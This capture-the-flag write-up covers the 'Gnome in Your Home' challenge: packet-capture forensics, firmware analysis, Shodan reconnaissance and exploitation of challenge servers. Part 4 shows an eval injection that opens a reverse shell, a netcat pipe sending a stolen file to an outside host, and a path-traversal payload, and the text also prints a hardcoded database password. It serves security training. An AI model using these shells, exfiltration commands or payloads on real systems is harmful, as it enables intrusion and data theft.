







# Part 1
## Process
We are given a packet capture to analyze, `giyh-capture.pcap`. Let's open it in
Wireshark:


That's quite a lot of 802.11 control packets. I doubt that's the control
channel, though. Let's take a look at those DNS requests, those seem more
interesting. We can filter by using the filter expression `dns`:


Looks like some of those queries are for "cmd.sg1.atnascorp.com". That seems
awfully suspicious. Let's look at a response for one of those queries:



Looks like base64 encoding. Let's bring up a shell and try it:

```sh
ruby :: holidayhack/part1 » echo Tk90RTo= | base64 -d
NOtE:
```

Yep. Looks like all of the other replies for "cmd.sg1.atnascorp.com" are the
same thing. Let's look at the responses for "reply.sg1.atnascorp.com" instead.
All of them have a transaction ID of 0x1337, so we can simply use the filter
expression `dns.id == 0x1337`.

Looking at the first response:

```sh
ruby :: holidayhack/part1 » echo RVhFQzpTVEFSVF9TVEFURQ== | base64 -d
EXEC:START_STATE
```

Yep, this is definitely what we want. Unfortunately, this is too much data to
analyze using copy-paste from Wireshark. Fortunately, we can use the `tshark`
command-line tool to extract the data we want:

```sh
ruby :: holidayhack/part1 » tshark -Tfields -e dns.txt -r giyh-capture.pcap "dns.id == 0x1337"
RVhFQzpTVEFSVF9TVEFURQ==
- snip -
RVhFQzogICAgICAgICAgICAgICAgICAgIENoYW5uZWw6Ngo=
```

Essentially, what we are doing is taking every packet that matches our filter
expression `dns.id == 0x1337` and getting the value of the `dns.txt` field,
which is the query response. Now we can do some analysis. Let's start by
getting `tshark`'s output into a file:

```sh
ruby :: holidayhack/part1 » !! > query_responses
ruby :: holidayhack/part1 »
```

And let's base64 decode every line in that file:

```sh
ruby :: holidayhack/part1 » for i in `cat query_responses`; do
echo $(echo $i | base64 -d)
done | nl | less
```

The output is piped to `nl` so we can get line numbers, and piped to `less` so
we can review it for anything interesting manually. As it turns out, there is
something very interesting. On line 84, we see a command being sent:

```
    84  FILE:START_STATE,NAME=/root/Pictures/snapshot_CURRENT.jpg
```

The following lines contain binary data with the JPEG image.


Now to actually extract the file. We are given a partially working script, but
I decided to ignore it. We know that every line is base64 encoded, and every
line starts with the string `FILE:`. We know that the last line is an end
marker, so we should ignore that as well. Keeping all that in mind, we can
write a script to:

- Give us lines starting at the 85th line
- Give us characters starting at the 6th character ("FILE:" is 5 characters)
- Skip the last line
- Not write newlines between commands
- Output all of this to an image

I implemented this in Python. Here's the source:

```py
# The DNS responses are base64-encoded
import base64

# We want lines starting at the 85th, but we're using a zero-based system
lines = [i.strip() for i in open("query_responses").readlines()][84:] 

# Let's have the image data accumulate in this variable
image_data = b""

for line in lines:
    # We want to base64 decode the entire line, then take everything past the
    # 5th character ("FILE:" is 5 characters). Let's add it to the variable
    # we defined above
    image_data += base64.b64decode(line)[5:]

# Great, now all of our data is in the image_data variable. Let's write it out
# to an image so we can actually use it:

with open("image.jpg", "wb") as image_file:
    image_file.write(image_data)
```

Once we run this script, we get the file "image.jpg", which appears to contain
a picture of a bedroom:


There you have it! We're done with Part 1!

## Answer
### a
The `FILE:START_STATE` command is sent, indicating that a file is about to be
sent across the network.

### b
The image is shown above.

# Part 2
## Process
This time, we're given a firmware image, and asked to try to retrieve a password
from it. In addition, we are to answer the following questions:

- What operating system and CPU type are in the Gnome? What type of
web framework is the web interface built in?
- What kind of a database engine is used to support the Gnome's web interface?
What is the plaintext password?

One of my favorite tools for firmware analysis is `binwalk`. It "walks" across
a file, and tries to find file headers that match types that it knows about.
Let's try running it on our firmware image:

```sh
ruby :: holidayhack/part2 » binwalk giyh-firmware-dump.bin 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PEM certificate
1809          0x711           ELF 32-bit LSB shared object, ARM, version 1 (SYSV)
168803        0x29363         Squashfs filesystem, little endian, version 4.0, compression:gzip, size: 17376149 bytes,  4866 inodes, blocksize: 131072 bytes, created: Tue Dec  8 18:47:32 2015
```

Aha! That Squashfs filesystem most likely has the files we need. Let's first
extract it from the image using `binwalk -e`:

```sh
ruby :: holidayhack/part2 » binwalk -e giyh-firmware-dump.bin 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PEM certificate
1809          0x711           ELF 32-bit LSB shared object, ARM, version 1 (SYSV)
168803        0x29363         Squashfs filesystem, little endian, version 4.0, compression:gzip, size: 17376149 bytes,  4866 inodes, blocksize: 131072 bytes, created: Tue Dec  8 18:47:32 2015

ruby :: holidayhack/part2 » cd _giyh-firmware-dump.bin.extracted 
ruby :: part2/_giyh-firmware-dump.bin.extracted » ls
0.crt  29363.squashfs
```

Now we have our Squashfs image. We can extract it using the `unsquashfs`
utility (from the `squashfs-tools` package). Let's do that:

```sh
ruby :: part2/_giyh-firmware-dump.bin.extracted » unsquashfs 29363.squashfs 
Parallel unsquashfs: Using 4 processors
3936 inodes (5763 blocks) to write

[===================================================================================================================/] 5763/5763 100%

created 3899 files
created 930 directories
created 37 symlinks
created 0 devices
created 0 fifos
```

There is also a digital certificate in the firmware image. This could be helpful
later. Let's analyze it:

```sh
ruby :: part2/_giyh-firmware-dump.bin.extracted » openssl x509 -in 0.crt -noout -text
Certificate:
    Data:
        Version: 3 (0x2)
        Serial Number: 14259043265947038335 (0xc5e24c4d7fb2f27f)
    Signature Algorithm: sha256WithRSAEncryption
        Issuer: O=ATNAS Corporation
        Validity
            Not Before: Nov 28 12:25:45 2015 GMT
            Not After : Nov 25 12:25:45 2025 GMT
        Subject: O=ATNAS Corporation
        Subject Public Key Info:
            Public Key Algorithm: rsaEncryption
                Public-Key: (4096 bit)
                Modulus:
                    00:eb:ea:76:fe:68:39:7a:7a:4d:a5:15:bd:39:0f:
                    fe:7d:0f:69:9c:2c:28:31:77:48:01:85:3a:eb:98:
                    89:d9:17:82:43:52:ac:f7:d0:b6:87:a2:5a:b2:59:
                    c4:2e:53:a2:ea:b6:39:c3:0e:b5:71:02:07:5c:6e:
                    68:7b:56:ca:a2:e5:89:88:b1:08:9f:fd:ac:8e:63:
                    45:fd:e9:9a:dc:07:91:09:61:35:5b:b0:b9:de:8f:
                    88:78:38:2c:02:cf:69:8a:43:e0:f3:17:08:7e:fc:
                    c4:61:0f:2a:e2:66:82:49:67:e9:e2:74:0c:dc:2a:
                    17:37:aa:3b:7b:38:f1:0a:36:3e:98:5c:7e:c3:bd:
                    83:35:9b:f8:01:db:bb:e6:9d:a8:bb:b6:0c:6b:00:
                    60:55:98:09:77:8f:1a:7d:45:be:e7:b3:66:65:9f:
                    85:79:4e:b5:14:4a:be:cc:55:49:8c:ce:3e:dc:f5:
                    19:80:18:4d:07:4f:c2:14:a8:56:6a:77:b4:e4:87:
                    5a:67:61:33:e4:98:7d:d1:59:ea:57:39:87:bd:e9:
                    24:8d:98:b3:4d:17:96:29:2e:0b:8e:5e:46:0f:87:
                    a6:11:e8:32:31:57:1a:1b:72:1a:14:f4:02:9c:43:
                    f2:80:98:6d:27:15:6a:d7:17:01:06:ef:35:fa:f4:
                    aa:a1:2a:62:50:cf:23:24:0e:1e:99:c9:b2:00:36:
                    31:9e:87:43:99:8f:19:fa:1d:45:88:db:25:23:96:
                    db:88:17:ef:1e:c5:7f:ca:ce:e3:dc:62:e5:9c:f7:
                    a2:c9:fe:5b:0e:3d:9f:19:a3:2c:00:0b:5c:59:2a:
                    c3:c7:53:81:7f:b5:26:52:9d:80:fe:6a:d6:0c:59:
                    99:bd:0b:da:68:49:b0:2c:fe:e3:60:2d:33:15:51:
                    64:e9:8e:81:f7:c0:a3:13:ef:75:45:04:d6:61:05:
                    74:6f:cb:d6:72:4d:8c:eb:4a:ee:ec:3b:23:bf:cc:
                    60:d3:63:05:91:02:15:5e:9c:4a:2d:1d:a5:ec:fd:
                    93:50:37:a7:b8:9b:da:e7:e9:c8:ed:3d:26:49:fb:
                    31:7f:8a:1f:4f:76:db:fb:81:ed:ba:28:97:be:aa:
                    5d:49:db:43:23:bc:42:87:77:2e:53:e9:8a:5c:bf:
                    e6:92:27:c2:d1:fb:4e:41:02:73:4b:bf:72:b4:78:
                    53:b0:14:49:23:c1:20:84:f2:c0:47:14:06:5a:92:
                    d0:af:b8:db:b1:e9:23:97:ea:23:49:f5:32:ca:92:
                    d0:0f:9d:af:47:c9:f5:a8:1e:de:da:cb:25:d4:bf:
                    b2:9c:7e:19:c9:8a:93:12:7d:d4:bb:c6:4a:06:77:
                    20:85:5f
                Exponent: 65537 (0x10001)
        X509v3 extensions:
            X509v3 Subject Key Identifier: 
                1E:8B:AE:3C:E3:B3:E3:61:71:24:61:21:44:A7:31:05:D0:07:30:8B
            X509v3 Authority Key Identifier: 
                keyid:1E:8B:AE:3C:E3:B3:E3:61:71:24:61:21:44:A7:31:05:D0:07:30:8B

            X509v3 Basic Constraints: 
                CA:TRUE
    Signature Algorithm: sha256WithRSAEncryption
         cf:bc:b6:a1:5f:b3:97:c8:2d:30:e7:75:2e:b4:73:46:93:a7:
         df:44:1a:be:e5:58:cc:fa:45:1d:8d:1c:4b:8b:bb:66:43:3d:
         53:2c:71:7b:65:9a:69:1c:b3:3e:47:de:08:cc:d2:9d:97:ec:
         25:5a:d0:a0:ac:a7:e7:3a:7b:88:42:34:59:a5:7d:68:67:18:
         f8:09:dd:9b:86:60:f3:db:7a:d3:84:9a:2b:78:d1:f9:48:89:
         84:2f:e6:16:a6:8f:85:90:7e:8a:07:8e:db:c5:19:ca:78:ee:
         df:80:d8:e0:6e:2f:6f:c4:21:39:cf:66:bc:bf:80:b4:20:4f:
         e5:81:17:80:ec:df:11:67:85:52:97:f3:96:1e:2a:7b:9a:a8:
         6c:b4:a4:42:1e:d0:1e:de:23:44:ec:34:09:f9:46:56:29:aa:
         c5:ed:09:26:55:15:5c:dd:f3:d6:7b:0c:a3:e4:01:ea:70:5e:
         3a:a2:22:81:3e:d7:87:fe:6e:5a:49:18:42:f1:a8:17:8c:35:
         ad:0d:c3:2a:40:52:d2:b0:8f:42:44:19:fe:6e:16:5b:93:0f:
         2f:38:98:7c:4d:5c:a7:ad:c5:04:86:ef:c0:ea:77:bc:1f:21:
         0d:6e:c1:96:3e:af:15:eb:88:4c:c1:99:73:8e:a6:36:4e:c3:
         b4:71:86:75:c9:32:3e:7e:84:36:55:17:b4:9f:04:54:74:e6:
         e4:8f:9b:ba:23:dc:ff:15:b9:25:ff:88:bc:3c:83:a3:57:37:
         0a:d3:4c:69:56:72:04:94:f7:bb:65:e7:f4:9d:55:73:32:91:
         bc:f8:40:bb:b9:d2:ca:e5:cd:6b:b0:34:16:2b:e3:b8:99:d8:
         59:2d:60:5c:cc:6f:fe:fa:83:18:48:c4:f2:17:12:4c:14:0a:
         7c:19:2e:62:d6:4f:b8:b0:dc:89:6f:dd:a1:2c:07:c9:70:06:
         60:45:fa:12:b3:16:15:9b:90:e7:c2:4a:63:07:2c:02:88:92:
         93:0b:02:50:3e:15:99:fd:b4:8d:83:dd:0e:0f:ec:52:38:e7:
         81:69:67:a7:38:3c:1f:a6:1a:bd:e7:5b:75:49:a3:03:a5:45:
         53:52:63:73:cb:6b:71:37:c4:b7:f7:61:4c:01:21:32:76:f9:
         da:68:44:6f:60:01:24:9a:d0:60:46:d3:43:93:26:98:97:65:
         56:76:59:ba:e9:ff:04:07:74:e0:25:69:12:60:50:00:b0:8f:
         d8:1f:fb:3e:81:1e:38:26:e1:a8:69:63:f7:5d:a8:f7:f1:ab:
         39:8e:8e:b5:66:96:b0:6b:27:31:41:f6:72:9f:26:10:8c:de:
         2f:d3:a2:e4:4d:c4:d4:84
```

Interesting. Looks like it's ATNAS Corporation's certificate authority. Perhaps
it's used to verify the firmware. We can't be sure at this point.

Now, we have the Gnome's root filesystem in the `squashfs-root` folder. Let's
see if there's anything interesting:

```sh
ruby :: _giyh-firmware-dump.bin.extracted/squashfs-root » ls
bin  etc  init  lib  mnt  opt  overlay  rom  root  sbin  tmp  usr  var  www
ruby :: _giyh-firmware-dump.bin.extracted/squashfs-root » file init 
init: POSIX shell script, ASCII text executable
```

Huh, that's interesting. `init` usually isn't in the root directory, and it's
usually not a text file. Let's take a look:

```sh
ruby :: _giyh-firmware-dump.bin.extracted/squashfs-root » cat init 
#!/bin/sh
# Copyright (C) 2006 OpenWrt.org
export INITRAMFS=1
exec /sbin/init
```

That copyright string is helpful. It means that the operating system running is
likely OpenWRT, which is Linux-based. Let's take a quick look at `/sbin/init`,
and see if it has any clues:

```sh
ruby :: _giyh-firmware-dump.bin.extracted/squashfs-root » file sbin/init
sbin/init: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-armhf.so.1, stripped
```

So the gnome has an ARM processor. That could come in handy later.

That `www` folder seemed interesting. Let's look there next:

```sh
ruby :: _giyh-firmware-dump.bin.extracted/squashfs-root » cd www 
ruby :: squashfs-root/www » ls
app.js  bin  files  node_modules  package.json  public  routes  views
```

Hmm, `app.js`? `node_modules`? Sounds like this is a Node.js application.
Let's take a look at `app.js` to see if we can find anything more:

```sh
ruby :: squashfs-root/www » cat app.js
var express = require('express');
- snip -
var mongo = require('mongodb');
var monk = require('monk');
var db = monk('gnome:KTt9C1SljNKDiobKKro926frc@localhost:27017/gnome')

var app = express();
- snip -
```

This gives us a lot of helpful information. We now know that the web interface
is based on node.js, using the Express framework, and that it is using MongoDB
as a database backend. Let's take a look to see if we can find the web
interface password from MongoDB's data files. First, let's try to find MongoDB's
data directory:

```sh
ruby :: squashfs-root/etc » cat mongod.conf 
- snip -
storage:
  dbPath: /opt/mongodb
- snip -
```

Okay, let's take a look in `/opt/mongodb` then:

```sh
ruby :: _giyh-firmware-dump.bin.extracted/squashfs-root » cd opt/mongodb 
ruby :: opt/mongodb » ls
gnome.0  gnome.ns  journal  local.0  local.ns  _tmp
```

Let's use the tool `strings` to take a look at the `gnome.0` file. What
`strings` will do is find all groups of printable characters in the given file
longer than a certain length, and show them to us. If we're lucky, the password
will be among those groups. Let's try it:

```sh
ruby :: opt/mongodb » strings gnome.0
- snip -
username
admin
password
SittingOnAShelf
- snip -
```

Aha! Looks like the password is "SittingOnAShelf".

## Answer
### a
Some Linux distribution is running on an ARM processor on the Gnome (firmware
suggests that it is OpenWRT). The web framework used is Express, which uses
Node.js.

### b
MongoDB is used to support the web interface. The plain-text password is
"SittingOnAShelf".

# Part 3
## Process

In this part, we are told to locate "SuperGnomes", which are some sort of master
control nodes. The hint "sho Dan" of course points to the Shodan.io tool, which
allows us to search the Internet for devices that match a query. One way to
target Gnome devices would be to use the title of the index page they display.
Let's take a look at one the index template:

```sh
ruby :: squashfs-root/www » cat views/index.jade 
extends layout
- snip -
```

Okay, let's go to the layout template:

```sh
ruby :: squashfs-root/www » cat views/layout.jade 
- snip -
    head
      title= title
- snip -
```

Let's take a look at where these pages are rendered to get the value of the
`title` variable:

```sh
ruby :: squashfs-root/www » cat routes/index.js | grep title
      res.render('index', { title: 'GIYH::ADMIN PORT V.01', session: sessions[sessionid], res: res });
- snip -
```

Now that we know the webpage title, let's try searching some of those words in
Shodan:


Awesome. Excluding "92.84.56.10" (which doesn't seem to be part of the
challenge), we have five nodes, presumably SuperGnomes. Let's go confirm them
with Tom:







## Answer

Our nodes are:
- 54.233.105.81, in Brazil, SG-05
- 52.192.152.132, in Japan, SG-04
- 52.2.229.189, in the US (Ashburn), SG-01
- 52.64.191.71, in Australia, SG-03
- 52.34.3.80, in the US (Boardman), SG-02

# Part 4
Let's exploit some vulnerabilities!

## SG-01 / 52.2.229.189
This one was easy. We can just log in with the username and password given to
us, and then download files from the "Files" section, which looks like this:


The contents of `gnome.conf` for this node are:

```
Gnome Serial Number: NCC1701
Current config file: ./tmp/e31faee/cfg/sg.01.v1339.cfg
Allow new subordinates?: YES
Camera monitoring?: YES
Audio monitoring?: YES
Camera update rate: 60min
Gnome mode: SuperGnome
Gnome name: SG-01
Allow file uploads?: YES
Allowed file formats: .png
Allowed file size: 512kb
Files directory: /gnome/www/files/
```

Nice Star Trek reference.

Those other files could be interesting, too. One of them, 20141226101055.zip,
is mentioned in the story. Let's analyze that now.

Another packet capture is contained within the zip file. Let's open it in
Wireshark:



Hmm, not very helpful. Let's use the "Follow Stream" tool:



Looks like some email. Here's the text:

```
JoJo,

As you know, I hired you because you are the best architect in town for a
distributed surveillance system to satisfy our rather unique business
requirements.  We have less than a year from today to get our final plans in
place.  Our schedule is aggressive, but realistic.

I've sketched out the overall Gnome in Your Home architecture in the diagram
attached below.  Please add in protocol details and other technical
specifications to complete the architectural plans.

Remember: to achieve our goal, we must have the infrastructure scale to
upwards of 2 million Gnomes.  Once we solidify the architecture, you'll work
with the hardware team to create device specs and we'll start procuring
hardware in the February 2015 timeframe.

I've also made significant progress on distribution deals with retailers.
Thoughts?
Looking forward to working with you on this project!
 -C
```

There are some attachments, as well. The first one is an image called
"GiYH\_Architecture.jpg". After extracting it from the stream:


We also find `sgnet.zip`, which, when extracted, gives us some C source code for
a status daemon. This may come in handy later.

## SG-04 / 52.192.152.132
This is a special node. It allows us to upload files:


But only certain types of files:


Let's go back and look at the code for uploading files. There's an interesting
line in the part that performs postprocessing:

```javascript
d.run(function() {
  result = eval('(' + postproc_syntax + ')');
});
```

Seeing `eval` is never good. A second look at the upload page and my hopes
(fears?) are confirmed:


This is great! Let's send something of our own, perhaps some JavaScript to
launch a reverse shell?

On my server machine:
```sh
sapphire :: ~ » nc -l -p 18623
```

And in the application, with a little help from [the internet](https://github.com/evilpacket/node-shells/):


And hey, we have a shell:



Now let's just go get that gnome.conf:



We also want the zip file that's in /gnome/www/files, so let's get that too.
It's not really a good idea to run `cat` on it over this connection, so let's
just send it over another pipe:

```sh
ls /gnome/www/files
20151203133815.zip
- snip -
cat /gnome/www/files/20151203133815.zip | nc home.fwilson.me 18626
```

On `home.fwilson.me` I had a listener set up like this:

```
sapphire :: ~ » nc -l -p 18626 > 20151203133815.zip
```

I fetched `factory_cam_4.zip` in a similar way.

So, now we have another zip file! Let's analyze it. Upon extraction, we get
another packet capture file. It's similar to the last one in structure. There
is another email. The text is:

```
Dr. O'Malley,

In your recent email, you inquired:

> When did you first notice your anxiety about the holiday season?

Anxiety is hardly the word for it.  It's a deep-seated hatred, Doctor.

Before I get into details, please allow me to remind you that we operate
under the strictest doctor-patient confidentiality agreement in the
business.  I have some very powerful lawyers whom I'd hate to invoke in the
event of some leak on your part.  I seek your help because you are the best
psychiatrist in all of Who-ville.

To answer your question directly, as a young child (I must have been no more
than two), I experienced a life-changing interaction.  Very late on
Christmas Eve, I was awakened to find a grotesque green Who dressed in a
tattered Santa Claus outfit, standing in my barren living room, attempting
to shove our holiday tree up the chimney.  My senses heightened, I put on my
best little-girl innocent voice and asked him what he was doing.  He
explained that he was "Santy Claus" and needed to send the tree for repair.
I instantly knew it was a lie, but I humored the old thief so I could escape
to the safety of my bed.  That horrifying interaction ruined Christmas for
me that year, and I was terrified of the whole holiday season throughout my
teen years.

I later learned that the green Who was known as "the Grinch" and had lost
his mind in the middle of a crime spree to steal Christmas presents.  At the
very moment of his criminal triumph, he had a pitiful change of heart and
started playing all nicey-nice.  What an amateur!  When I became an adult,
my fear of Christmas boiled into true hatred of the whole holiday season.  I
knew that I had to stop Christmas from coming.  But how?

I vowed to finish what the Grinch had started, but to do it at a far larger
scale.  Using the latest technology and a distributed channel of burglars,
we'd rob 2 million houses, grabbing their most precious gifts, and selling
them on the open market.  We'll destroy Christmas as two million homes full
of people all cry "BOO-HOO", and we'll turn a handy profit on the whole
deal.

Is this "wrong"?  I simply don't care.  I bear the bitter scars of the
Grinch's malfeasance, and singing a little "Fahoo Fores" isn't gonna fix
that!

What is your advice, doctor?

Signed,

Cindy Lou Who
```

The relevant headers are:

```
From: "c" <c@atnascorp.com>
To: <psychdoctor@whovillepsychiatrists.com>
```

This is the same "c" that sent the last email. Looks like we have her identity
now: it's "Cindy Lou Who".

## SG-02 / 52.34.3.80

Poking around the admin interface a bit, we see something very interesting in
the settings interface:


We can upload settings files. Let's try it!


...oh. So, we can't upload files, but it looks like we can create directories.
That doesn't seem very helpful right now, but it might come in handy, when
combined with an LFI vulnerability from the firmware image:

```javascript
  var camera = unescape(req.query.camera);
  // check for .png
  //if (camera.indexOf('.png') == -1) // STUART: Removing this...I think this is a better solution... right?
  camera = camera + '.png'; // add .png if its not found
  console.log("Cam:" + camera);
  fs.access('./public/images/' + camera, fs.F_OK | fs.R_OK, function(e) {
    if (e) {
            res.end('File ./public/images/' + camera + ' does not exist or access denied!');
    }
  });
  fs.readFile('./public/images/' + camera, function (e, data) {
    res.end(data);
  });
```

It turns out that this camera actually does the ".png" check. How could we get
a ".png" in the path? By creating a temporary directory somewhere called ".png".
Let's try it:


Awesome. So now we can use `/gnome/www/public/upload/ljAndVtO/.png/` in our
exploit of the `/cam` route with an LFI vulnerability. The base path for files
fetched with `/cam` is "/gnome/www/public/images/". We need to get to
"/gnome/www/public/upload/ljAndVtO/.png/", then to
"/gnome/www/files/gnome.conf". So, we should be able to fetch this path:
`../upload/ljAndVtO/.png/../../../../files/gnome.conf` and get the
configuration! Let's try it:


I fetched `factory_cam_2.zip` in the same way.

Looks like there's an XKCD reference in there, too. The challenge writers have
good taste in webcomics :)

And let's not forget the other file we want, "20150225093040.zip". Unzipping it,
we see another packet capture. Here's the email we get from it:

```
Maratha,

As a follow-up to our phone conversation, we'd like to proceed with an order
of parts for our upcoming product line.  We'll need two million of each of
the following components:

+ Ambarella S2Lm IP Camera Processor System-on-Chip (with an ARM Cortex A9
CPU and Linux SDK)
+ ON Semiconductor AR0330: 3 MP 1/3" CMOS Digital Image Sensor
+ Atheros AR6233X Wi-Fi adapter
+ Texas Instruments TPS65053 switching power supply
+ Samsung K4B2G16460 2GB SSDR3 SDRAM
+ Samsung K9F1G08U0D 1GB NAND Flash

Given the volume of this purchase, we fully expect the 35% discount you
mentioned during our phone discussion.  If you cannot agree to this pricing,
we'll place our order elsewhere.

We need delivery of components to begin no later than April 1, 2015, with
250,000 units coming each week, with all of them arriving no later than June
1, 2015.

Finally, as you know, this project requires the utmost secrecy.   Tell NO
ONE about our order, especially any nosy law enforcement authorities.

Regards,

-CW
```

This is, again, from the same `c@atnascorp.com` as every other email.

## Static Images
